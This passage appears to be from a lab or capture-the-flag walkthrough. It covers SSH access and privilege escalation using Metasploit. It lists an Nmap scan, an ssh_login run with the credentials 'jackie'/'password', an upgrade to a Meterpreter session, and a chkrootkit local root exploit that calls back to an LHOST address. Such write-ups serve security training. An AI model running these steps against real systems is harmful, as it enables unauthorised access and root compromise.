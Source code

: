 ```bash
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
[*] Nmap: MAC Address: 02:42:C0:CF:AB:03 (Unknown)
```

### Exploitation <a href="#exploitation-2" id="exploitation-2"></a>

```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
options
set USERNAME jackie
set PASSWORD password
run
sessions
```

<figure><img src="../../../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

* Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session

```bash
sessions -u 1
```

### Privilege Escalation <a href="#privilege-escalation-1" id="privilege-escalation-1"></a>

```
search chkrootkit
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST 192.101.97.2
run

# CTRL+Z to background the shell session
```

